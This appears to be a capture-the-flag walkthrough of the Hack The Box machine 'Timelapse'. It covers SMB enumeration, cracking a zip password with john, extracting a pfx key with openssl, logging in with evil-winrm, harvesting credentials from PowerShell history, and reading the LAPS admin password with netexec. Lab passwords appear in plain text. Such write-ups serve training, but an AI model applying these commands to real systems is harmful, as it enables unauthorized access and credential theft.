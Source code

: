 # 📦 Timelapse

I start off by scanning open ports:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

first i add timelaps.htb to my hosts file

Then i try conecting though RPCCLIENT anonymous but got denied, then SMB shares enum:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I download everything in the share and see some interesting stuff:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a password to unzip the backup zip so i use zip2john to get the hash:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

```
john  --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt 
```

then i get my hash, i'm able to unzip and see the pfx file but there is also a password:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>thuglegacy</p></figcaption></figure>

Then to extract the keys ->

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
#to see the content:
openssl pkcs12 -in legacyy_dev_auth.pfx
#to dl the key:
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
#to dl the cert:
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert
```

**`-nocerts`** → Tells OpenSSL to extract **only** the private key (skip the certificates).

**`-nodes`** → **Disables encryption** on the private key (otherwise, OpenSSL would ask for a passphrase)

**`-nokeys`** → Tells OpenSSL to extract **only** the certificate(s) (skip the private key).

Now that we have a private key i can try and use evil-winrm with --ssl:

```
evil-winrm -S -i <IP> -c key.cert -k key.pem
```

and we are able to get a foothold:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
`gci -force .` will show hidden files in a directory
{% endhint %}

Then we have to enumerate and check a powershell file that is used when you connect on multiple computers in a domain with the same account, this file will follow you as your history:

```
C:\Users\legacyy\Appdata\Roaming\Microsoft\Windows\Powershell\Psreadline
```

and in that file we find a consolehost log file ->

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV</p></figcaption></figure>

Winpeas catches this file. Now we can connect:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

After looking at our groups we can see some stuff:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-laps/#extract-laps-password" %}

We can see there is a netexec module for laps exploit:

```
nxc smb 10.129.227.113 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
nxc ldap 10.129.227.113 -u 'Administrator' -p 'D!YT07abvZ0,1Xy%Mf3$8+R8'
```

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
